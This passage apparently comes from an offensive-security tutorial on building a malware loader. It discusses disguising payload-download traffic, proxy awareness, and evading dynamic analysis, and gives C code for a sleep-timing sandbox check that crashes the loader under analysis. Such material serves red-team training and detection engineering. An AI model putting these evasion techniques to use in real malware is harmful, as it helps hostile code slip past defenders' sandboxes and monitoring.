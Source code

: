 However, there are also some drawbacks to consider here. The request and the payload send back by the server could be considered suspicious. We must therefore take care, that our request and the response from the server blend in with the normal traffic in the environment. There are additional factors, that we need to consider here like the reputation of our URL and security solutions that monitor the web traffic from our target host. Furthermore, we also need to make sure, that our logic is proxy aware, as most corporate environments will only allow internet connections over the configured proxy.

## Dynamic Analysis
There are different scenarios in which our executable will face dynamic analysis.:
- Some products might have basic emulation logic built in to assess whether or not an executable is malicious
- In some environments an executable, that is downloaded might be placed in a sandbox
- Some products might upload our executable to a sandbox environment in the cloud
- Someone might use a sandbox to analyze our executable

In all these cases it would be good to avoid being classified as malicious. 

### Sandbox detection
There are many strategies for detecting whether or not we are executing in a sandbox.  If we know we are executing in a sandbox we can simply exit our process or display different non-malicious behavior to fool the sandbox. 

A very basic technique for evading sandbox analysis is retrieving the system time, sleeping for a certain time, and then comparing the time that passed to the time, that we expect to pass during the sleep call. The following code implements this using the `NtQuerySystemTime()` function:
```
void sandboxevasion() {
    UINT64 system_time_before = 0;
    UINT64 system_time_after = 0;
    printf("[+] Retrieving system time using syscall\n");
    pNtQuerySystemTime(&system_time_before);
    printf("[+] System time before sleep: %lu\n", system_time_before);
    printf("[+] Sleep for 2 seconds\n");
    Sleep(2000);
    printf("[+] Retrieving system time a second time\n");
    pNtQuerySystemTime(&system_time_after);
    printf("[+] System time after sleep: %lu\n", system_time_after);
    UINT64 difference = (system_time_after - system_time_before)/10000;
    printf("[+] Difference %lu ms\n", difference);
    if (difference < 2000) {
        printf("[+] Sandbox. Triggering exception.\n");
        difference = 1/0;
    }
    else {
        printf("[+] No sandbox :)\n");
    }
}
```

As sandbox solutions will often fast forward sleep calls, the above logic will in some cases be able to detect, that it is running in a sandbox. If this is the case we trigger an uncaught exception by dividing by 0 and terminate the execution of our loader.

